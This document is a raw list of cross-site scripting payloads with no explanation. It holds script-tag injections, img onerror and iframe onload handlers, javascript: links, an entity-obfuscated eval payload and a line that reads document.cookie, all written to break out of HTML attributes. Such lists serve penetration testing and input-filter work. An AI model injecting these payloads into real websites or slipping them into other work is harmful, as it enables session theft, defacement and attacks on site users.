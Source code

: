 "><script>alert("XSS")</script>


"><script>alert(1)</script>


<html><script>alert(1)</script><html>


"<marquee><h1> TesT </h1></marquee>


"><img src=x onerror=prompt(1);>


"><img src="aaa.jpg"onerror=javascript:alert(6)>


"><iframe src=a onload=alert('1') <


"><iframe src=https://www.microsoft.com/"></iframe>


"><script>var x = prompt;x(0);x(/XSS/.source);x(0);;x(1);</script>


'><a href='javascript:alert(1)'><font size="50" >Click Here</font></a><>



'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>
<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(document.cookie) type=submit>'-->
"></script><script>alert(document.location)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>
'"><img src="http://1337day.com/img/logo_green.jpg">
